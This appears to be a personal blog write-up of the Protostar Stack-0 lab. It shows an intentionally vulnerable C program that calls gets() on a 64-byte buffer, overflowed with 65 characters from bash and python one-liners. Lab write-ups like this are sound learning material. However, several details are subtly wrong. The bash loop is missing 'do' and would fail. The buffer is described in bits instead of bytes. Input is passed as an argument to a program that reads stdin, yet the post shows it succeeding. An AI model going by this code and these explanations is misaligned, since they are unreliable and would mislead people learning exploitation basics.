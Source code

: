 ```yaml
---
author: "faizul"
title: "Protostar Stack-00"
date: 2020-09-30T12:00:06+09:00
description: "Exploit-Exercise Protostar Stack-0"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
series:
- protostar
---
```

 
Low-level exploit, reverse engineering always excite me. Eventhough i did attended one class during Bachelor Degree and learn about Assembly in X86, i only admire this skillset when i relly grind myslef into cybersec and pentest. I try to attend few free training during DefCon and other InfoSec Conference besides doing tutorial from various blog such as MalwareUnicorn, netgarageio and the Exploit Exercise itself. 

This post will be the first entry of me doing Protostar VM by exploit-exercise. While the Stack-0 will be easiest form of Buffer Overflow(for entry), this VM might help me to prepare my aim to gain OSCP in 2021. Enjoy my dumb writing. 

# Stack 0

## About
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Code provided

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
## Binary execution
![image](/images/protostar/f6f2ffd342c546f686de2632a76ac35a.png)

## Solution 
Since the code show how `char buffer` only hold `[64]` bit value, lets run this first with 3 bit value. Next, we going to run the binary with value up to 64. To do this, we can use bash script to generate/print value 64 above.



```bash
user@protostar:~$ for a in {1..65}; echo -n a; done
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

user@protostar:/opt/protostar/bin$ ./stack0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
```

Ok, looks like we successfully overwrite the memory area by exploiting the memory buffer overflow technique. 

To make the payload in a form of human readable and beautiful, lets just use python. 

```python
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

Then on our ssh, just execute this python script and let the payload execute corrupt the memory.

```bash
user@protostar:~$ python -c "print 'A' * 65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```
